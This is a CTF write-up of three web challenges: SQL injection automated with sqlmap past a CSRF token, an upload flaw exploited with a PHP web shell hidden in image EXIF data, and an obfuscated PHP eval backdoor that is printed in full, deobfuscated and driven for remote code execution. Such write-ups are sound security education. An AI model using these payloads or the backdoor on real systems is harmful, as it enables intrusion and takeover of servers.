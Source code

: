 # IEEE Olympics CTF Competition Writeups

## Description
IEEE Olympics CTF Competition organized and managed by IEEE Mansoura Student Branch & EG CERT

CTF Competition Style: jeopardy

Time: 6 hours

## Challenges
### [1- Web : Inj3ct th!s - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)

in this challenges we have login form and as challenge name its should be sql injection

so i tested it but its well protected against sql injection
so back to hints:
```You don't need to bruteforce directories or credentials at all. Do you know how search engines work?```

yes its ``robots.txt`` file

when i opened it its contain ``User-agent: * Disallow: /user_info.php``

when i opened it its only contain ``Invalid input!`` in response so i bruteforced the parameters and found ``uid`` working so i gave it value 1 
so response was 
```html
<script>document.cookie="token=1250816630"</script><meta http-equiv="refresh" content="time; URL=user_info.php?uid=1"/>
```
then redirect me and response was
```html
id: 1<br>Name: Forrest Hamilton<br>Email: accumsan.convallis.ante@convallis.net<br><script>document.cookie="token=320196787"</script>
```
when i try ``user_info.php?uid=1 AND 1=1`` & ``user_info.php?uid=1 AND 1=2`` its working perfrect but wait i can't automate the injection using sqlmap cuz csrf token :"(

token is changing and can't send more than 1 request with same token so its csrf token but every time i send request to ``user_info.php?uid=1`` response back with javascript code to set new csrf token in cookie then refresh the page to get result.

i tried a lot but no way .. i tried Roles & Macros in burp and its working in parameters only so can't get token from response body and set it to cookie in next request i can set it only to any parameters

so i can't automate the process and i must do it manually and its boolean based xD

so i tried a lot untill i did it, so i wrote a php script and run it on localhost server

the script send request without token to get new token then set it as cookie with ``setcookie`` function

and back to sqlmap and add these parameters `` --csrf-url="http://localhost/ctf/Inj3ct this.php" --csrf-token="token" `` and its asked me to merge the cookies so i said yes and holaaaa i automated sql injection with sqlmap with ``Generic UNION query (NULL) - 5 columns`` payload xD
and got DB name and table name but can't get columns because ``schema`` is blocked as hints said :(
so i brueforced it and table columns name is: `id, name, user_name, user_password`

dumped the database and got username of admin: ``admin`` and his password as plaintext: ``Sup3rS3cretP@ssw0rd``
back to login form and loggin in and holaaa here is the flag :  ````IEEE{Sch3ma0xa46480_is_Aw3some}````



### [2- Web : S3cure uploader - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)
here we have simple file uploader and we got source code
```php
<?php
if(isset($_GET["upload"])) {
$target_dir = "uploads/";
$vars = explode(".", $_FILES["FileToUpload"]["name"]);
$filename=$vars[0];
$ext = $vars[1];
//randomizing file name
$time = date('Y-m-d H:i:s');
$new_name = md5(rand(1,1000).$time.$filename."0x4148fo").".".strtolower(pathinfo(basename($_FILES["FileToUpload"]["name"]),PATHINFO_EXTENSION));
$filename=explode(".", $_FILES["FileToUpload"]["name"])[0];
$ext = $filename=explode(".", $_FILES["FileToUpload"]["name"])[1];
$target_file = $target_dir . "$new_name";
// Check if file already exists
if (file_exists($target_file)) {
  echo "File already exists.";
  $uploadOk = 0;
  die();
}
// Check file size
if ($_FILES["FileToUpload"]["size"] > 500000) {
  echo "File is too large.";
  $uploadOk = 0;
  die();
}
$uploadOk = 1;
$check = getimagesize($_FILES["FileToUpload"]["tmp_name"]);
if($check !== false) {
    $uploadOk = 1;
} else {
    echo "File is not an image.";
    $uploadOk = 0;
    die();
  }
}
move_uploaded_file($_FILES["FileToUpload"]["tmp_name"], $target_file);
if(strtolower(pathinfo(basename($_FILES["FileToUpload"]["name"]),PATHINFO_EXTENSION))=="jpg"){
echo "File uploaded successfully to $target_file";
}
else{
	die("Invalid file type");
}
?>
```
so after reading and analyse it i found big serious problem, the script check file extension after moving uploaded file to uploading folder LOL xD
but server reset every 10 mins so we have only 10 mins xD

also if i uploaded anything except jpg it won't give me the file name so i must get file name manually

but SAD the file name is md5 hash of random number + date + filename without ext + custom string WTF !!

but wait random number from 1 to 1000 only so its easy to brueforce it

and we can get date from response headers xD

and we got file name of course and custom string

but wait it check image uploaded with `getimagesize` function but its easy to bypass by injecting php payload into image exif data by ``exiftool -Comment='<?php  system($_GET['cmd']); ?>' test.jpg``

also script check file size so we should inject php payload into small image, my image size after injecting php code inside it was 677 bytes :D

then change image name to `anything.php` then upload it and get date from response and edit my php script (was have no time to write it with python or any lanuage else xD) with it then run my script
so now we have 1000 filenames as md5 hash
so back to burp intruder and paste my list on payload list and start attack and wait 200 response code and holaaaa we got web shell uploaded :D
and now we can get flag inside flag.php file :D


### [3- Web : Tiny backd00r - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)
here we have simple website with index.php that contains `Can you hackme!` nothing else
i tried to brutforce another scripts name with dirsearch tools but no result
back to hints we have 2 hints
1- `You should never trust the files left behind editors!`
2- `Vim backup files are always dangrous.`

so we should find vim backup file that should be index.php~ but 404 notfound :"(
so i guessed the file name `backdoor.php` and hola 200ok but empty response so i tried to get vim backup of it `backdoor.php~` and holaaa we got source code
but WTF is that xD
```php
<?php
$F=',$i++){gMgM$ogM.=$t{$i}^$k{$jgM};}}returngMgM $o;}if(gM@preg_gMmatch("/$gMkgMh(.+)$gMkf/gM",@file_get_congMtents(gM"gMphp';
$Y=str_replace('p','','crpepatppe_fupnctpion');
$a='$k=gM"094db03gMgM6";$kh="7gMefgM9bf383gMded";$kf="gMb241egM2ed9d4a";gM$p="wa1YvgMgM8JoMtD0QJO9gMgM";functiongM x($';
$V='tgM_contents(gM);@ob_gMend_gMclean();$r=gM@gMbasgMe64_encode(gM@x(@gzcomgMgMpress($o)gM,$k));prigMntgM("$gMp$kh$r$kf");}';
$Q='t,$gMk)gM{gM$c=gMstrlen($k);$l=sgMtrlegMgMn($t);$o="";for($igM=0;$i<$gMl;){fogMrgM($j=0gM;($j<$c&&gM$gMi<$l);$j++gM';
$M=':gM//input")gMgM,$m)==1){@ogMb_start();@gMevagMl(@gzugMncompresgMs(@x(@bgMase64_dgMecogMde($m[1])gM,$kgM))gM);$o=@obgM_ge';
$h=str_replace('gM','',$a.$Q.$F.$M.$V);
$l=$Y('',$h);$l();
?>
```
its easy to make it easy to read by print `$h`
and after some modifications we have this source code
```php
<?php
$k="094db036";
$kh="7ef9bf383ded";
$kf="b241e2ed9d4a";
$p="wa1Yv8JoMtD0QJO9";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);$
    o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}
```
after some analysis i found that script check for php input with regex exp.

so if input have and text between `$kh` and `$kf` ("7ef9bf383ded" and "b241e2ed9d4a") then script will extract this string then decode it as base64 then pass it to `x function` to decrypt it then gzuncompress it then pass the result to `eval` function :D

then get the result then gzcompress it then decrypt it with `x function` then encode the result as base64 then print it in response between `$p` & `$kh` and `$kf`
so i wrote simple php script to do all this sh!t xD

my script get payload from GET input and encrypt it using
```php
$cmd_encoded = base64_encode(x(gzcompress($_GET['payload']),$k));
```
then put it between `$kh` and `$kf` values then send this request to challenge server

and get the response and decrypt it using
```php
$result_decoded = gzuncompress(x(base64_decode($result),$k));
```

then print the result after filtering it from `$kf` & `$kh` and `$p` values

now let's try this payload : `system("ls");`
and holaaaa we have RCE now and u can read the flag in `s3cret_flag.php` file :D
